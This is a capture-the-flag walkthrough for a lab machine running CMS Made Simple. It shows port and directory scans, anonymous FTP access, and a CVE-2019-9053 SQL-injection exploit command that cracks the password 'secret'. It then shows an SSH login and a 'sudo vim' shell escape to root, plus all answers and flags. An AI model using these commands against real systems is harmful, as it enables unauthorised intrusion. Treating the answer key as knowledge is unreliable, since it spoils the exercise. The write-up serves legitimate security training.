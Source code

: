 # Simple CTF

## Useful tools and resources
- Nmap
- gobuster
- rockyou.txt
- [dirsearch](https://github.com/maurosoria/dirsearch)
- [100k Most used passwords](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt)

## Task 1: Simple CTF
### 1. How many services are running under port 1000?
```
2
```
First, we do an nmap scan to the machine, checking for all ports.\
__nmap output__:
```
> nmap -sT -p- 10.10.253.82
Nmap scan report for 10.10.253.82
Host is up (0.20s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```
We find ports 21 and 80, which are under 1000.

### 2. What is running in the higher port?
```
ssh
```
We now do an nmap scan to the highestt port, which is 2222.\
__nmap output__:
```
> nmap -sV -p 2222 10.10.253.82
Nmap scan report for 10.10.253.82
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We see that this port has __ssh__ as its service.

Another alternative for the nmap scan could be:
```bash
nmap -A -T4 -p- 10.10.x.x
```

### 3. What's the CVE you're using against the application?
```
CVE-2019-9053
```

### 4. To what kind of vulnerability is the application vulnerable?
```
SQLi
```

First, we are going to acces the ftp service through the user 'anonymous'. Inside the ftp we find a text file with important information. We get the file and transfer it to our computer so we can read it.
```bash
kali@kali:~$ ftp 10.10.253.82
Connected to 10.10.253.82.
220 (vsFTPd 3.0.3)
Name (10.10.253.82:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (2.6832 MB/s)
ftp> exit
kali@kali:~$ cat ForMitch.txt
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

We exit out of ftp and proceed to the main page in port 80 (http) which is Apache.\
Url: `10.10.219.145/index.html`

We are going to run a __gobuster__ scan to find useful directories.\
__gobuster output__
```bash
kali@kali:~$ gobuster dir -u 10.10.219.145 -w /usr/share/wordlists/dirb/common.txt -t 15 -x php,html,txt -q
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/.htpasswd.html       (Status: 403) [Size: 302]
/.hta.php             (Status: 403) [Size: 296]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.hta.html            (Status: 403) [Size: 297]
/.htaccess.html       (Status: 403) [Size: 302]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess.txt        (Status: 403) [Size: 301]
/.hta.txt             (Status: 403) [Size: 296]
/.htpasswd.php        (Status: 403) [Size: 301]
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]  
/robots.txt           (Status: 200) [Size: 929]  
/server-status        (Status: 403) [Size: 301]  
/simple               (Status: 301) [Size: 315] [--> http://10.10.219.145/simple/]
```
When we inspect the __/simple__ directory, we find __CMS Made Simple__. The version can be found in the footer of the page.
If we search for this CVE: `CMS Made Simple 2.2.8 cve` we find a vulnerability to SQL Injection.

### 5. What's the password?
```
secret
```

### 6. Where can you login with the details obtained?
```
ssh
```

We then find the [Exploit Database](https://www.exploit-db.com/exploits/46635) entry with some python code.

__python command:__
```bash
python 46635.py -u http://10.10.116.229/simple --crack -w 100kcommon.txt
```
__output:__
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
We can use this credentials to login using ssh.
```bash
ssh mitch@10.10.116.229 -p 2222
```
When promped for the password, write: `secret`.

We are now logged in as mitch.

### 7. What's the user flag?
```
G00d j0b, keep up!
```
If we do `ls` once we are logged in, we can find a file called __user.txt__. If we cat it out we find the user flag.

### 8. Is there any other user in the home directory? What's its name?
```
sunbath
```
In our current folder, jump back a directory with `cd ..`. Now do an `ls` to see the contents of the home folder. 
We should see another user called __sunbath__.

### 9. What can you leverage to spawn a privileged shell?
```
vim
```
To see what our sudo privileges are, we can run `sudo -l`. After running it we can see that we have acces to vim, and we can exploit that to get root access.
If we search for vim in __GTFOBins__, and go to the sudo section we see a potential payload that we can use.

__payload:__
```bash
sudo vim -c ':!/bin/sh'
```
After running it, we should have root access.

### 10. What's the root flag?
```
W3ll d0n3. You made it!
```
If we change into the root folder with `cd /root` we can then run `ls -la` to see all the contents of the folder, where the root flag can be found.